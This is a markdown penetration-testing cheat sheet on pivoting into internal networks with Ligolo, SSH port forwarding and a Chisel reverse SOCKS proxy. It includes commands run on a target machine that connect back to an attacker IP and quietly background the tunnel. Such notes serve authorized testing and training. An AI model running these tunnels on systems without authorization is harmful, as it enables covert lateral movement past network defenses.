 ### Ligolo
###### This is great for tunneling to another internal network.
```
#Create network interface for ligolo
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up

#Start proxy on your machine
./lin-proxy -selfcert -laddr 0.0.0.0:7000

#Start agent on target machine
./lin-agent -connect <attacker IP here>:7000 -ignore-cert
./win-agent -connect <attacker IP here>:7000 -ignore-cert

#Add network routes on your machine
sudo ip route add <ip-add>/24 dev ligolo

#Start ligolo session and start routing traffic
session
start
```

### Port Forwarding

###### This is great for forwarding just one local port on the target to your machine.

#### Local
```
#Forwards a port from a remote machine to your kali machine.
#Run this on the kali machine.
ssh -L <kali_port>:localhost:<target_port> <target_username>@<target_ip>

#Check if the port is listening (run on both target and host.)
ss -ntplu

#Target port examples
mysql -h localhost -p <target_port>
curl http://localhost:<target_port>
```

#### Dynamic Remote
This is good for reaching multiple internal local ports.

```
#On your machine
chisel server --port 80 --reverse

#On the target machine
chisel client <kali_ip>:80 R:socks > /dev/null 2>&1 &

#Add to /etc/proxycahins4.conf file
socks5	127.0.0.1 1080

#Sending traffic (can also configure foxy proxy too.)

#For reaching ports on that host
proxychains <command> <localhost>:<target_port>

#For reaching ports on the wider internal network
proxychains <command> <int_host>:<target_port>
```


